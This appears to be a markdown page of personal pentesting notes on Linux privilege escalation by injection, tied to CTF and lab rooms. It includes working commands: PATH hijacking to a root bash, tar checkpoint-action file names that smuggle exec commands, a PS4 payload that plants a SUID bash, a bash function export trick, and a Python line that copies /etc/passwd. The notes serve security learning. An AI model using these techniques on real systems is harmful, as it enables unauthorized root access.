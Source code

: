 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](../topics/tasks.md) or a [program with the SUID bit](../topics/perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![bash_system_1](../../../../_badges/rootme/app_script/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../../_badges/rootme/app_script/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxstrengthtraining](../../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![ultra_upload](../../../../_badges/rootme/realist/ultra_upload.svg)](https://www.root-me.org/en/Challenges/Cracking/Godot-Mono)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```
</div><div>

While the `--` trick is handy, it may not always work. You can alternatively use the relative path:

```shell!
$ touch './--checkpoint=1'
$ touch './--checkpoint-action=exec="id > id.txt"'
$ touch './--checkpoint-action=exec=id > id.txt'
$ touch './--checkpoint-action=exec=bash script.sh'
```

If you can read files only in a specific folder or having a specific name, you can try using symbolic links:

```ps
$ ln -s /path/to/juicy/file /tmp/script/res/file
```
</div></div>

<hr class="sep-both">

## Library Hijacking

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

<div class="row row-cols-lg-2"><div>

Shared Object Hijacking or Linker Hijacking is a technique in which we load a malicious `.so` file when executing a potentially misconfigured binary such as `ls` in a potentially misconfigured environment.

A environment is misconfigured when we have write access to a folder defined in `/etc/ld.so.conf`. Such folders are checked in order when looking for a `.so`. It includes standard folders such as `/lib` or `/usr/lib` and may include non-standard writable paths.

If we find a suspicious binary, we can examine it:

```ps
$ ldd <binary>
$ readelf -d <binary>
```

If the binary has the `RUNPATH` folder set and it points to a file/folder we can write to, then we can load our `.so`.
</div><div>

To write a static binary (`.so`), [refer to rootbash#static binary](../utils/rootbash.md#root-bash-static-library) section.

Misconfigured Python installations may also be vulnerable if we are able to write python scripts in the module path.

```shell!
$ python3 -c 'import sys; print("\n".join(sys.path))'
$ touch xxx.py ; PYTHONPATH=`pwd` python -c 'import xxx'
```

Check every imported package using `pip3 show <package>`. If the package is imported from a location that is below a folder in which you can write to, then you can inject your own code.
</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

As a reminder, if you can execute commands, then refer to [command injection](/cybersecurity/red-team/s3.exploitation/vulns/injection/command.md) for additional related content. Refer also to: [format strings](/cybersecurity/red-team/s3.exploitation/vulns/memory/format_strings.md).

<br>

#### Python input() function

[![python_input](../../../../_badges/rootme/app_script/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```

<br>

#### Latex directives

[![latex_input](../../../../_badges/rootme/app_script/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
[![latex_command_execution](../../../../_badges/rootme/app_script/latex_command_execution.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

If we can compile LaTeX, we may be able to

* Execute commands (`\immediate\write18{xxx > buffer}`, `\verbatiminput{buffer}` or using `xxx 1>&2`).
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)
</div><div>

#### Bash Script Arguments

[![bash_unquoted](../../../../_badges/rootme/app_script/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [axcheron format strings](https://axcheron.github.io/exploit-101-format-strings/)
</div><div>
</div></div>